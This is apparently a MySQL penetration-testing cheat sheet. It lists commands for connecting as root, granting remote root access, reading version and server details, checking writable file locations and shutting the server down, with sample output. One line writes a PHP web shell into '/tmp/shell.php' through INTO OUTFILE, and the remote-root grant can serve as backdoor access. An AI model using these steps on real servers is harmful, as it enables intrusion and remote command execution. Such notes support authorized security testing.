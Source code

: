 # Pentesting MySQL

## Connect to the server locally
```
mysql -h localhost -u root
```

## Connect to the server remotely
```
mysql -h 192.168.232.131 -u root
```

## Enable remote root access
**For MySQL < 8.0**
```
GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' IDENTIFIED BY 'password';
```
**For MySQL > 8.0**
```
CREATE USER 'root'@'%' IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' WITH GRANT OPTION;
```

## Get the SQL version
```
mysql> SELECT version();
+-----------------+
| version()       |
+-----------------+
| 8.0.19-0ubuntu5 |
+-----------------+
1 row in set (0.00 sec)
```
OR
```
mysql> SHOW VARIABLES LIKE "%version%";
+--------------------------+-------------------------------+
| Variable_name            | Value                         |
+--------------------------+-------------------------------+
| immediate_server_version | 999999                        |
| innodb_version           | 8.0.19                        |
| original_server_version  | 999999                        |
| protocol_version         | 10                            |
| slave_type_conversions   |                               |
| tls_version              | TLSv1,TLSv1.1,TLSv1.2,TLSv1.3 |
| version                  | 8.0.19-0ubuntu5               |
| version_comment          | (Ubuntu)                      |
| version_compile_machine  | x86_64                        |
| version_compile_os       | Linux                         |
| version_compile_zlib     | 1.2.11                        |
+--------------------------+-------------------------------+
11 rows in set (0.00 sec)
```
OR
```
mysql> STATUS;
--------------
mysql  Ver 8.0.19-0ubuntu5 for Linux on x86_64 ((Ubuntu))
```

## Get server information
```
mysql> STATUS;
--------------
mysql  Ver 8.0.19-0ubuntu5 for Linux on x86_64 ((Ubuntu))

Connection id:          8
Current database:
Current user:           root@localhost
SSL:                    Not in use
Current pager:          stdout
Using outfile:          ''
Using delimiter:        ;
Server version:         8.0.19-0ubuntu5 (Ubuntu)
Protocol version:       10
Connection:             Localhost via UNIX socket
Server characterset:    utf8mb4
Db     characterset:    utf8mb4
Client characterset:    utf8mb4
Conn.  characterset:    utf8mb4
UNIX socket:            /var/run/mysqld/mysqld.sock
Binary data as:         Hexadecimal
Uptime:                 21 min 45 sec

Threads: 2  Questions: 19  Slow queries: 0  Opens: 126  Flush tables: 3  Open tables: 46  Queries per second avg: 0.014
```

## Check file locations that you can write to
[Source](https://stackoverflow.com/questions/32737478/how-should-i-resolve-secure-file-priv-in-mysql)

When attempting to write to a file you may get the following error:
```
select "<? echo passthru($_GET['cmd']); ?>" INTO OUTFILE '/tmp/shell.php';
ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```

You can check the file locations that you can write to by running the following command:
```
mysql> SHOW VARIABLES LIKE "secure_file_priv";
+------------------+-----------------------+
| Variable_name    | Value                 |
+------------------+-----------------------+
| secure_file_priv | /var/lib/mysql-files/ |
+------------------+-----------------------+
1 row in set (0.00 sec)
```

## Shut down the server
```
mysql> shutdown;
ERROR 2006 (HY000): MySQL server has gone away
No connection. Trying to reconnect...
```
